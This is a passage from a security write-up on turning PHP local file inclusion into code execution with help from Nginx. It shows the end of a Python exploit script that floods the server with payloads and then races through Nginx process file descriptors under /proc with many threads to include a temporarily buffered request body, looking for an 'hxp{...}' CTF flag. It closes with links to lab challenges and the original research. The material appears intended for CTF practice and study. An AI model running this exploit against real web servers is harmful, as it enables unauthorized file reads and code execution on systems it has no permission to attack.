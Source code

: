 ```python
        if random.randint(0, 1) == 0:
            path += f"/proc/{pid}/cwd"
        else:
            path += f"/proc/{pid}/root"
    return path

def read_file(requests_session, nginx_pid, fd, nginx_pids):
    nginx_pid_list = list(nginx_pids)
    while True:
        path = generate_random_path_prefix(nginx_pid_list)
        path += f"/proc/{nginx_pid}/fd/{fd}"
        try:
            d = requests_session.get(SERVER + f"/?action=include&file={path}").text
        except:
            continue
        # Flags are formatted as hxp{<flag>}
        if "hxp" in d:
            print("Found flag! ")
            print(d)

def read_file_worker(requests_session, nginx_pid, nginx_pids):
    # Scan Nginx FDs between 10 - 45 in a loop. Since files and sockets keep closing - it's very common for the request body FD to open within this range
    for fd in range(10, 45):
        thread = threading.Thread(target = read_file, args = (requests_session, nginx_pid, fd, nginx_pids))
        thread.start()

def read_file_multiprocess(requests_session, nginx_pids):
    for nginx_pid in nginx_pids:
        p = multiprocessing.Process(target=read_file_worker, args=(requests_session, nginx_pid, nginx_pids))
        p.start()

if __name__ == "__main__":
    print('[DEBUG] Creating requests session')
    requests_session = create_requests_session()
    print('[DEBUG] Getting Nginx pids')
    nginx_pids = get_nginx_pids(requests_session)
    print(f'[DEBUG] Nginx pids: {nginx_pids}')
    print('[DEBUG] Starting payload sending')
    send_payload_multiprocess(requests_session)
    print('[DEBUG] Starting fd readers')
    read_file_multiprocess(requests_session, nginx_pids)
```

## Labs

* [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/php-lfi-with-nginx-assistance.tar.xz)
* [https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/](https://2021.ctf.link/internal/challenge/ed0208cd-f91a-4260-912f-97733e8990fd/)
* [https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/](https://2021.ctf.link/internal/challenge/a67e2921-e09a-4bfa-8e7e-11c51ac5ee32/)

## References

* [https://bierbaumer.net/security/php-lfi-with-nginx-assistance/](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)


